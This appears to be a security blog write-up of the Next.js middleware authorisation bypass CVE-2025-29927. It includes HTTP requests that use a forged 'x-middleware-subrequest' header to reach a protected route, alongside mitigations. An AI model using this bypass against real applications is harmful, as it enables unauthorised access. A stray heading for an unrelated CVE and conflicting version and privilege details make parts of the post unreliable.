 ```yaml
---
id: 2
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
date: "Apil 16, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/nextjs_blog.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-29927](/assets/img/blog/nextjs_blog.png)

### CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

### Description
Next.js, an open-source web framework developed by Vercel, powers modern React-based applications with advanced features like server-side rendering and static site generation. Recently, a critical vulnerability (CVE-2025-29927) was uncovered, allowing attackers to bypass middleware-based authorization checks. This flaw was initially discovered and analyzed by Rachid Allam (zhero). In this post, we’ll dive into the technical details of the vulnerability, explore Rachid’s research, and craft a Nuclei template to help you detect this issue across your environment.

The vulnerability impacts Next.js middleware, a key feature often used to enforce authorization, rewrite paths, handle server-side redirects, and apply response headers like Content Security Policy (CSP).

By exploiting this flaw, an attacker can completely bypass middleware logic simply by adding a malicious `x-middleware-subrequest` HTTP header to their requests.


### Technical Breakdown

- **Affected Software**: Next.js  
- **Affected Versions**: 1.11.4 - 12.3.5, 13.5.9, 14.2.25, and 15.2.3  
- **CVSSv3.1 Score**: 9.1 (Critical)  
- **CVSSv3.1 Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`  
- **Affected Component**: Middleware  
- **Attack Vector**: Network  
- **Privileges Required**: Low (API Access)  
- **User Interaction**: None  
- **Scope**: Unchanged  

The vulnerability affects Next.js versions 11.1.4 through 13.5.6, as well as 14.x before 14.2.25 and 15.x before 15.2.3. The implications are severe for applications that depend on middleware for access control, as this can lead to unauthorized access to protected routes or resources—without authentication.

### Affected Component Analysis

In Next.js applications, middleware plays a critical role in handling tasks like authentication, logging, and security enforcement for all incoming requests. CVE-2025-29927 stems from how Next.js improperly processes the x-middleware-subrequest header internally.

Here's how the vulnerability works at the code level:javascript


```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  }
  continue;
}
```

The x-middleware-subrequest header is a special internal flag used by Next.js to signal that a request was generated within the framework itself specifically, as a subrequest triggered by middleware, not as a direct client request. This mechanism is essential for the proper functioning of Next.js features and helps prevent infinite middleware recursion by keeping track of internal calls.

![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_0.png)

However, this internal trust in the presence of the header introduces a serious flaw: attackers can craft requests that include this header, tricking Next.js into treating them as internal. As a result, middleware logic such as authentication checks can be completely bypassed.


### Exploitation Techniques

The method of exploitation slightly differs depending on the version of Next.js being used:

| **Next.js Version**       | **Middleware Naming/Location**                                | **Header Format (x-middleware-subrequest)**                                      |
|---------------------------|---------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Prior to 12.2**          | `_middleware.ts` in `pages` folder                            | `pages/_middleware`                                                              |
| **Nested Routes (Prior to 12.2)** | `_middleware.ts` in nested `pages` directories         | `pages/dashboard/_middleware`, `pages/dashboard/panel/_middleware`               |
| **12.2 and Later**         | `middleware.ts` (no underscore), not in `pages` folder        | `middleware`                                                                      |
| **12.2 and Later (with /src)** | `middleware.ts` inside `/src` directory                     | `src/middleware`                                                                 |
| **13.2.0 and Later**       | Same as 12.2+ but with recursion depth limit for middleware  | `middleware:middleware:middleware...` or `src/middleware:src/middleware...`      |


To illustrate the vulnerability, imagine a Next.js app with middleware that guards the `/protected` route by redirecting unauthorized users to `/login`.  
Normally request to `/protected` without proper authorization results in a redirect to `/login`.

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
Connection: keep-alive
```

**Response:**
```
HTTP/1.1 307 Temporary Redirect  
location: /  
Date: Wed, 16 Apr 2025 09:52:51 GMT  
Connection: keep-alive  
Keep-Alive: timeout=5  
Content-Length: 1  
/
```

An attacker can bypass this protection by sending a request with the appropriate header:

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
x-middleware-subrequest: middleware  
Connection: keep-alive
```

**Response:**
![nextjs_blog_1.png](/assets/img/blog/nextjs_blog_1.png)

By including a specific header, the request bypasses the middleware’s authorization logic entirely and proceeds straight to /protected, giving the attacker unauthorized access to restricted content.


### Mitigation Strategies

1. **Upgrade to a Patched Version**
The most effective mitigation is to upgrade to a secure version of Next.js where this vulnerability has been fixed.

Patched versions:
- 12.3.5
- 13.5.9
- 14.2.25
- 15.2.3

Upgrading ensures the issue is resolved at the framework level without requiring manual workarounds.

If upgrading is not immediately feasible, apply the following temporary mitigations:

#### 2. Strip the Header at the Load Balancer

If your application is behind a load balancer (e.g., AWS ELB, Cloudflare), configure it to remove the `x-middleware-subrequest` header from all incoming traffic.

#### 3. Configure Web Server to Remove the Header

**Nginx**  
Add this to your server block to strip the header:

```nginx
proxy_set_header x-middleware-subrequest "";
```

**Apache (mod_headers)**  
Use this directive to unset the header:

```apache
RequestHeader unset x-middleware-subrequest
```

#### 4. Custom Server Middleware (e.g., Express)

If you're using a custom server with Express, strip the header before it reaches Next.js:

```javascript
app.use((req, res, next) => {
  delete req.headers['x-middleware-subrequest'];
  next();
});
```


### References

- [GitHub Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)  
- [Proof of Concept GitHub Repo](https://github.com/mhamzakhattak/CVE-2025-29927)
- [Next.js Middleware Documentation](https://nextjs.org/docs/app/building-your-application/routing/middleware)  
- [Original Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)  

---
